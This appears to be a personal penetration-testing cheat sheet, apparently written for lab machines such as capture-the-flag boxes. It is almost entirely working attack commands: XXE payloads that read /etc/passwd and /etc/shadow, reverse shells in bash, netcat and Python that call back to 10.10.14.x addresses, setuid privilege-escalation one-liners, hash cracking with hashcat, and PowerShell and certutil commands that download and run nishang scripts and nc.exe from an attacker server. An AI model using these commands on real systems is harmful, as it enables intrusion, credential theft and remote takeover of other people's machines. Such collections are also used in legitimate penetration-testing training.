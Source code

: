 # This file is used to notedown the useful commands during pentesting. After that I arrange the commands
# accordingly in other files in this directory  



1. XXE:

<?xml  version="1.0" encoding="ISO-8859-1"?>                              
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&ent;</title>
		<cwe>aaa</cwe>
		<cvss>aaa</cvss>

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>




2. Capabilities search: `getcap -r / 2>/dev/null`


3. Python pty Shell: `python -c 'import pty;pty.spawn("/bin/bash")'`



4.Reverse shell : 

Bash : `/bin/bash -i 1>&/dev/tcp/10.10.14.5/1234 0<&1`

Netcat : `nc -e /bin/bash 10.10.14.5 4444`

Netcat(2) : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.13 1234 >/tmp/f`

Python: 

`python -c 'import socket,subprocess,os;s=socket.socket( socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

5. Perl system command one liner: `sudo perl -e 'system("/bin/bash -p");'`


6. XSS : `<script>alert("XSS")</script>`

7. Find Setuid enabled Programs : `find / -perm -u=s -type f 2>/dev/null`

8. df - to see free disk space of all mounted devices

9. Hash cracking :`hashcat -m 7900 -a 0 hash /usr/share/wordlists/rockyou.txt --force`  

10. Connect to Mysql server from the victim : `mysql -u username -h localhost --password=userpassword -D databasename -e 'show tables;'`

perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

echo "import os;os.setuid(0);os.system('chmod u+s /bin/bash')" >test.py

Remember `echo "/bin/bash">file`  NOT  `cp /bin/bash ./file`

export PATH=/home/rabbit:$PATH  

1. mdb-tools for .mdb(MS Access) files
2. pst-utls for .pst files.
3. Download from  ftp in binary mode 


xxd -r -p key ssh.key

cat ~/.bash_history

powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.11:8000/nishang.ps1')
powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.13:8000/jaws-enum.ps1')
powershell IEX(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.13:8000/jaws-enum.ps1", "C:\\Users\\Public\\Downloads\\jaws-enum.ps1")

powershell IEX(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.11:8000/nc.exe","C:\\xampp\htdocs\gym\upload\nc.exe")

certutil -urlcache -split -f http://10.10.14.11:8000/nc.exe

net users Administrator

cmdkey /list

runas /user:Administrator /savecred "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.13:8000/nishang2.ps1')"

whoami /prev